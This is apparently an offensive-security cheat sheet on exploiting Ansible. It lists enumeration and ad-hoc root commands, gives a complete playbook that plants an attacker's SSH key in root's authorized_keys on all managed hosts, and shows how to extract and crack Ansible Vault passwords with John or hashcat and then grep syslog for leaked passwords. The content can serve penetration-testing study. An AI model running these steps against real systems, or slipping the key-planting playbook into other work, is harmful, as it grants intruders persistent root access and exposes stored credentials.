 # Ansible

<details>

<summary>Enumeration</summary>

* Check if it's installed&#x20;
  *   ```bash
      ansible
      ```


* Find host inventory (Find group && hosts)
  *   ```bash
      cat /etc/ansible/hosts
      ```

      <figure><img src="../.gitbook/assets/image (301).png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>Running Ad-hoc Commands</summary>

* Run as standard user
  * ```bash
    ansible <grp name> -a "whoami"
    ```

- Run as Root
  * ```bash
    ansible <grp name> -a "whoami" --become
    ```

</details>

<details>

<summary>Ansible Playbook</summary>

* Run command:
  *   ```bash
      ansible-playbook <playbook-name>
      ```


* Might contain plaintext credentials
  *

      <figure><img src="../.gitbook/assets/image (302).png" alt=""><figcaption></figcaption></figure>


* Exploit weak perm --> Add attacker's SSH public keys to victims
  * ```yaml
    ---
    - name: Get system info
      hosts: all
      gather_facts: true
      become: yes
      tasks:
        - name: Display info
          debug:
              msg: "The hostname is {{ ansible_hostname }} and the OS is {{ ansible_distribution }}"

        - name: Create a directory if it does not exist
          file:
            path: /root/.ssh
            state: directory
            mode: '0700'
            owner: root
            group: root

        - name: Create authorized keys if it does not exist
          file:
            path: /root/.ssh/authorized_keys
            state: touch
            mode: '0600'
            owner: root
            group: root

        - name: Update keys
          lineinfile:
            path: /root/.ssh/authorized_keys
            line: "ssh-rsa AAAAB3NzaC1...Z86SOm..."
            insertbefore: EOF
    ```

</details>

<details>

<summary>Ansible Vault</summary>

* Might be present in playbook files
  *

      <figure><img src="../.gitbook/assets/image (303).png" alt=""><figcaption></figcaption></figure>


* Copy vault-encrypted password
  *

      <figure><img src="../.gitbook/assets/image (304).png" alt=""><figcaption></figcaption></figure>


* Convert to format used by John/Hashcat
  *   ```bash
      python3 /usr/share/john/ansible2john.py vault_password > vault.hash
      ```


* Crack with John
  *   ```bash
      john --wordlist=/usr/share/wordlists/rockyou.txt vault.hash
      ```


* OR Crack with Hashcat
  *   ```bash
      hashcat -m 16900 hash.txt rockyou.txt
      ```



      *

          <figure><img src="../.gitbook/assets/image (305).png" alt=""><figcaption></figcaption></figure>



### Decrypting using vault password

* On attacker: Pipe the encrypted vault string to ansible-vault decrypt
  *   ```
      cat vault_password | ansible-vault decrypt
      ```

      <figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>Data Leakage via Ansible Modules</summary>

* Leak data to /var/log/syslog
  * ```bash
    cat /var/log/syslog | grep password
    ```

</details>
